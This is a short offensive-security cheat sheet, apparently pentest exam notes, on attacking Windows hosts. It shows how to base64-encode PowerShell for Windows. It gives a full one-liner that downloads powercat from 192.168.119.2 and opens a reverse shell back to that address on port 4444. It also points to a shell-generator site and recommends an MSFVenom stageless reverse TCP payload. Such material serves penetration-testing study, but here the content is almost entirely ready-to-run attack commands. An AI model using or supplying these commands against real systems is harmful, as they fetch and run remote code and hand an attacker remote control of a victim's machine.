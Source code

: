 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Great site for generating shells: <br>
[Revshells.com](https://www.revshells.com/) 
<hr style="border-color:red"><p style="color:red;text:center">If you use MSFVenom, always use the 4th option Windows Stageless Reverse TCP so you get full points</p><hr style="border-color:red">
